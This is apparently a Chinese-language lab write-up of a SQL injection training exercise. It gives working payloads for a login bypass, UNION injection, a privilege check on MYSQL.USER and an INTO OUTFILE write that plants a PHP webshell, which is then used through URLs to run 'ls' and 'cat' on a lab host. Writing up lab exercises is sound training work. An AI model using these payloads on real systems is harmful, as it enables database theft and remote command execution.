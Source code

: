 # SQL实验报告

## SQL Injection Fundamentals

```blank
```

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条。绕过权限进入页面。
```

```sql
' or 1=1 limit 1 --
```

![1](img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不处理。
```

```sql
' UNION SELECT 1,2,3,4 -- 
```

![2](img/3.png)

```blank
3.通过尝试，发现union拼接列数为5。
```

```sql
' UNION SELECT 1,2,3,4,5 -- 
```

![3](img/4.png)

```blank
4.查询用户是否有权限，发现有权限。
```

```sql
CN' UNION SELECT 1, SUPER_PRIV, 3, 4, 5 FROM MYSQL.USER WHERE USER="ROOT"-- -
```

![4](img/5.png)

```blank
5.尝试写入文件，访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

![5](img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。访问该文件，尝试执行命令。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

![6](img/7.png)

```blank
7.执行下列命令，获取系统/目录下的所有文件，发现有flag。
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](img/8.png)

```blank
8.执行命令，获取flag。
flag:528d6d9cedc2c7aab146ef226e918396
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

### 结果截图

![10](img/10.png)

---
